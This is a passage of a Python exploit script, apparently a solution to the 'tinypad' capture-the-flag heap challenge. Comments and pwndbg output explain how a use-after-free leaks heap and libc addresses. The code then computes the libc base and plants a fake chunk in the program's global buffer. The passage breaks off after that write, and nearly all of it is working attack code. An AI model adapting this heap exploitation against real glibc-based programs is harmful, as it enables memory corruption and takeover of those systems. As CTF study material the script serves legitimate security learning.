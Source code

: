 ```python
# dbg()
# pwndbg> unsorted
# unsortedbin
# all: 0xa55000 -> 0xa55120 -> 0x7f43c8f5bb78 (main_arena+88) <- 0xa55000

# when we delete id3 and id1, the program still print they content
# because the ptr which point to id3 and id1 was not set to NULL

# pwndbg> x/4g 0xa55120 <-id3
# 0xa55120: 0x0000000000000000  0x0000000000000091
# 0xa55130: 0x00007f43c8f5bb78  0x0000000000a55000
# pwndbg> x/4g 0xa55000 <-id1
# 0xa55000: 0x0000000000000000  0x0000000000000091
# 0xa55010: 0x0000000000a55120  0x00007f43c8f5bb78
# pwndbg>

# when program print the content of id3 and id1,
# it will print the addr of unsorted bin' header

ru("Deleted.")
ru(" #   INDEX: 1")
ru("CONTENT: ")
heap = u64(ru('\n').ljust(8,'\x00')) - 0x120
leak("heap",heap)

ru(" #   INDEX: 3")
ru("CONTENT: ")
main_arena = u64(ru('\n').ljust(8,'\x00')) - 88
leak("main_arena",main_arena)
# dbg()

# 0075f000-00780000 rw-p 00000000 00:00 0                                  [heap]
# 7f77ae730000-7f77ae8f0000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
# 7f77ae8f0000-7f77aeaf0000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
# 7f77aeaf0000-7f77aeaf4000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
# 7f77aeaf4000-7f77aeaf6000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so

# pwndbg> x/x &main_arena
# 0x7f77aeaf4b20 <main_arena>:  0x0000000100000000
# pwndbg>

offset = 0x7f77aeaf4b20 - 0x7f77ae730000

libc_base = main_arena - offset
leak("libc_base",libc_base)

delete(2)
delete(4)

add(0x18, "A"*0x18)
add(0x100, "B"*0xf8 + p64(0x11))
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
# dbg()
tinypad = 0x602040
offset = heap + 0x20 - 0x602040 - 0x20
fake_chunk = p64(0) + p64(0x101) + p64(0x602060) * 2

edit(3, "D"*0x20 + fake_chunk)
```